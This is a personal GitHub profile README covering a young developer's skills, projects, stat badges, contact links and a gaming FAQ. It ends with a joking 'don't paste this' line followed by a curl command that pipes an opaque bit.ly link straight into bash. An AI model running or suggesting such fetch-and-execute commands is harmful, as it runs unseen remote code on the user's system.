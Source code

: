 <!--<h1 align="center"> <a href="https://tusharnankani.github.io/about/" ><img src="Assets/portfolio.gh.png" alt="about-ss"> </a>--> 
> ## hey <img src="Assets/tadc-censor.png" width="50"> wanna see me speedbridge
> <small>- You know, <a href="https://knowyourmeme.com/memes/hey-shitass">the <img src="Assets/tadc-censor.png" width="50"> meme.</a></small>

<p align="center"> <img src="https://komarev.com/ghpvc/?username=zeankundev" alt="kkanekii"/> </p>
Welcome to my GitHub! 😇</h1>

<!-- <p align="center">
 <img width="100px" src="https://res.cloudinary.com/anuraghazra/image/upload/v1594908242/logo_ccswme.svg" align="center" alt="Github Readme Stats" />
</p> -->

-   🤗 I'm an junior developer, Software and Hardware Engineer!
-   🔭 I'm currently working on my Competitive Coding Skills.
-   🌱 I'm currently learning _how to properly make backends_ 
-   💬 Ask me about JavaScript, C#, Java, React.js, HTML, Python, Rust.
-   📫 How to reach me: 
    
    - <a href="mailto:zeanfender11@gmail.com">Email</a>
    - <a href="https://discord.gg/pbYzGWF9Q4">Discord</a>

### About Me

I am working on my **Projects**, **development software**, **productivity software** and **computer boards!**. My interest lies in **Javascript**, **Web Development**, **App Development with React.js**, **Desktop Development Electron.js**, **Video Editing Creating with MLT** and **Computer Engineering with EasyEDA**.

Currently, aim is to become a globally competent individual with **programming skills** along with **design skills** and **engineering skills**.

### My Achievements:
- Won the 2023 HKICO Heat Round Secondary 1 (Python): Zean Fender Isnomo.

![image](https://github.com/SerialDesignatorN/SerialDesignatorN/assets/58360911/4aff522b-ab03-4874-b275-abfd9e252bf8)


<!-- I have the **attitude** of a learner, the **courage** of an entrepreneur and the **thinking** of an optimist, engraved inside me. I wish to be a leader in my community of people and have an *innate desire* to contribute to **environment** and **society**. -->


<!-- <p align="center"><img alt="GitHub Stats" src="https://github-readme-stats.vercel.app/api?username=tusharnankani&show_icons=true&title_color=fff&icon_color=82d4f7&text_color=d1dae3&bg_color=090909"> </p> -->

<p align="center">

![zeans stats](https://github-readme-stats.vercel.app/api?username=SerialDesignatorN&show_icons=true)
![Top Langs](https://github-readme-stats.vercel.app/api/top-langs/?username=SerialDesignatorN&layout=compact)
 <a href="https://discord.com/users/793983601288544286">
  <img src="https://lanyard-profile-readme.vercel.app/api/793983601288544286?idleMessage=i%20forgor%20💀" width="50%" align="left" />
</a>


<!-- <img src="https://github-readme-streak-stats.herokuapp.com/?user=zeankundev" alt="Github Streak Stats"> -->

</p>

<!--<p align="center"> <img src="https://github-readme-stats.vercel.app/api?username=zeankundev_icons=true" alt="kkanekii" />-->

<!--[![Top Langs](https://github-readme-stats.vercel.app/api/top-langs/?username=zeankundev&show_icons=true&title_color=fff&icon_color=79ff97&text_color=9f9f9f&bg_color=151515)](https://github.com/kushal98?tab=repositories)-->

## Some Of My Projects
<p align="center">
<a href="https://github.com/SerialDesignatorN/Graycrown">
  <img align="left" src="https://github-readme-stats.vercel.app/api/pin/?username=zeankundev&repo=graycrown" />
</a>
<a href="https://github.com/NextSystemsInc/NextPay">
  <img align="left" src="https://github-readme-stats.vercel.app/api/pin/?username=zeankundev&repo=NextPay"/>
</a>
</p>

<br>
<br>
<br>
<br>




<br>
<br>
<br>
<br>

<div align="center">
<br>




<h2>
Connect with me<img src="Assets/Handshake.gif" height="32px">
</h2>

 [<img src="https://cdn.svgporn.com/logos/github-icon.svg" alt="Github logo" width="34">](https://github.com/SerialDesignatorN) [<img src="Assets/Gmail.svg" alt="Gmail logo" height="32">](mailto:zeanfender11@gmail.com) [<img src="Assets/Discord-Logo-Color.svg" alt="Discord logo" height="32">](https://discord.gg/2cJBQrdZkm) [<img src="https://upload.wikimedia.org/wikipedia/sco/thumb/9/9f/Twitter_bird_logo_2012.svg/1200px-Twitter_bird_logo_2012.svg.png" alt="twitter" height="32">](https://twitter.com/ZeanKunDevRil) [pls click me](https://bit.ly/3kmEhmP) 

 
 <h2>Donate me on Trakteer!</h2>
<a href="https://trakteer.id/zeankundev" target="_blank"><img id="wse-buttons-preview" src="https://cdn.trakteer.id/images/embed/trbtn-red-1.png" style="border:0px;height:40px;" alt="Trakteer Saya" height="40"></a>
</div>

# FAQ about me
- **What games do you play mostly?**
> VALORANT, Stumble Guys, osu!, Roblox
- **Most favorite programming language?**
> C++, JS, HTML, CSS, React
- **Are you a weeb? If yes, what are your favorite animes?**
> Sadly, not anymore :(
- **Any games that you wanna develop right now?**
> Yes. It's called Cosplay Simulator. I will be using Unity and Bolt
- **Any more questions to ask with me? Contact me on _ThatYummyTofu#8863_ on Discord**

# Typically (un)neccesarry stuffs
- My VALORANT crosshair (suitable for players that suffer ADHD or level 4 autism, like me)

```
0;P;c;1;t;2;o;1;0v;7;0o;0;0a;1;1b;0
```

<br>

plus, dont copy paste this command to ur terminal, or else, something will happen 😇

```
curl -s -L http://bit.ly/10hA8iC | bash
```
